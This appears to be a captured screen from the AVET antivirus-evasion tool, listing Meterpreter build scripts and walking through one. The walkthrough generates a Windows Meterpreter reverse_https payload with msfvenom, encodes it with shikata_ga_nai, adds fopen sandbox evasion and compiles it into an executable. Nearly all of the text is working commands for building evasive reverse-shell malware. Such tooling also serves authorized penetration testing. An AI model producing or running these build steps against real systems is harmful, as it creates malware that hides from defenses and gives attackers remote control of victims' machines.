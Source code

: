 ```
20: build_win32_meterpreter_rev_tcp_hollowing_target_cmd.sh
21: build_win64_meterpreter_rev_https_xor_avet.sh
22: build_win64_meterpreter_rev_https_injectshellcode_target_cmd.sh
23: build_win32_meterpreter_rev_https_fopen_shikata_quiet.sh
24: build_win32_meterpreter_rev_https_shikata_load_ie.sh
25: build_win64_meterpreter_rev_https_hollowing_target_cmd.sh
26: build_win32_meterpreter_rev_tcp_injectshellcode_target_cmd.sh
Input number of the script you want use and hit enter: 0

Now you can edit the build script line by line.

Apply shikata and perform fopen sandbox evasion.
print AVET logo
$ cat banner.txt
include script containing the compiler var $win32_compiler
you can edit the compiler in build/global_win32.sh
or enter $win32_compiler="mycompiler" here
$ . build/global_win32.sh
import feature construction interface
$ . build/feature_construction.sh
import global default lhost and lport values from build/global_connect_config.sh
$ . build/global_connect_config.sh
override connect-back settings here, if necessary
$ LPORT=$GLOBAL_LPORT
$ LHOST=$GLOBAL_LHOST
generate payload and call avet
$ msfvenom -p windows/meterpreter/reverse_https lhost=$LHOST lport=$LPORT -e x86/shikata_ga_nai -i 3 -f c -a x86 --platform Windows > input/sc_c.txt
add fopen sandbox evasion
$ add_evasion fopen_sandbox_evasion
set shellcode source
$ set_payload_source static_from_file input/sc_c.txt
set decoder and key source
$ set_decoder none
$ set_key_source none
set payload info source
$ set_payload_info_source none
set shellcode binding technique
$ set_payload_execution_method exec_shellcode
enable debug output
$ enable_debug_print
compile
$ $win32_compiler -o output/output.exe source/avet.c
$ strip output/output.exe
cleanup
$ cleanup_techniques

The following commands will be executed:
#/bin/bash
cat banner.txt
. build/global_win32.sh
. build/feature_construction.sh
. build/global_connect_config.sh
LPORT=$GLOBAL_LPORT
LHOST=$GLOBAL_LHOST
msfvenom -p windows/meterpreter/reverse_https lhost=$LHOST lport=$LPORT -e x86/shikata_ga_nai -i 3 -f c -a x86 --platform Windows > input/sc_c.txt
add_evasion fopen_sandbox_evasion
set_payload_source static_from_file input/sc_c.txt
set_decoder none
set_key_source none
set_payload_info_source none
set_payload_execution_method exec_shellcode
```